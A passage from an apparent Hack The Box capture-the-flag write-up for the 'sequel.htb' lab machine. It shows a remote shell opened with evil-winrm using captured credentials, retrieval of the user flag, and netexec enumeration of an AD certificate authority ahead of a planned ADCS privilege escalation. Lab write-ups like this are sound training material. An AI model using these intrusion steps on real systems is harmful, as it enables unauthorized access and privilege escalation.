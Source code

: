## PRIVILEGE ESCALATION
---
### Login as Ryan.Cooper
---
And so it was, the credentials were valid for the user Ryan.Cooper, and we obtained our first flag.

````powershell
❯ evil-winrm -i 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> cd ..
cd*Evil-WinRM* PS C:\Users\Ryan.Cooper> cd Desktop
ls*Evil-WinRM* PS C:\Users\Ryan.Cooper\Desktop> ls


    Directory: C:\Users\Ryan.Cooper\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         2/1/2025  10:52 AM             34 user.txt
````

After a period of enumeration without significant findings, I recalled an important detail. At port 3269, we observed that the certificate was issued by **sequel-DC-CA**. This is a critical observation because the **Certificate Authority (CA)** establishes trust within the domain. If **ADCS** is misconfigured, it could enable attackers to issue unauthorized certificates or impersonate users, thereby facilitating privilege escalation or lateral movement within the network.
So, we are going to perform some checks using  **Netexec** which is a lightweight network enumeration tool designed to scan and analyze various network services.

````powershell
❯ netexec ldap 10.10.11.202 -u ryan.cooper -p 'NuclearMosquito3' --module adcs

SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
LDAPS       10.10.11.202    636    DC               [+] sequel.htb\ryan.cooper:NuclearMosquito3
ADCS        10.10.11.202    389    DC               [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.10.11.202    389    DC               Found PKI Enrollment Server: dc.sequel.htb
ADCS        10.10.11.202    389    DC               Found CN: sequel-DC-CA
````

